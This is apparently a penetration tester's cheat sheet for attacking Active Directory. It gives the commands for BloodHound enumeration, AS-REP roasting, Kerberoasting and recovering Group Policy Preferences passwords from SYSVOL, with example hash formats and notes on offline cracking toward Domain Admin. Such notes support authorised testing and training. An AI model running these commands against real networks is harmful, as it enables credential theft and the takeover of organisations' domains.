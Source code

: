 # Conda

## Bloodhound

### Collection

#### SharpHound

```bash
```

#### BloodHound.py

```bash
# Installation
pip3 install bloodhound
# Binary
bloodhound-python
# Command
bloodhound-python -u <username> -p <password> -ns <IP> -d <domain.local> -c All
# Copy json output file into Bloodhound
```

### Enumeration

#### Node Info

* Can search and select a specific user, machine, etc. where you can get details of it.
* Can right click on user in graph and mark as owned.
* Can right click on permission and click on Help.

#### Queries

* Find AS-REP Roastable Users (DontReqPreAuth)&#x20;
* Find Shortest Paths to Domain Admin
* Shortest Paths to Domain Admins from Owned Principals

## AS-REP Roasting

> Must have a username or list of usernames to perform

### GetNPUsers

```bash
# From Kali
GetNPUsers.py <domain.local>/<username> -dc-ip=<IP>
# Look "getting its TGT"
$krb5asrep$23$<username>@<domain.local>:12345...
# Then can attempt to brute force offline with John or Hashcat
```

## Kerberoasting

> Must have an already compromised account to authenticate with

### GetUserSPNs

```bash
# From Kali
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username>
# A list of accounts with SPNs should show along with the account name, etc.
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username> -request
# Look for the hash in the output
$krb5tgs$23$*<Username>$<domain.local$<domain.local>/<username*>$12345...
# Then can attempt to brute force offline with John or Hashcat
```

## GPP Credentials

> Must have an already compromised account to authenticate with

### Get-GPPPassword.ps1

```bash
# From Windows Target
findstr /S /I cpassword \\<domain.local>\sysvol\<domain.local>\policies\*.xml
# Look for the cpassword= value
cpassword="<value>"
# Then can attempt to decrypt them offline using PowerSploit's Get-GPPPassword.ps1
Get-GPPPassword
# Look for Password value output
```
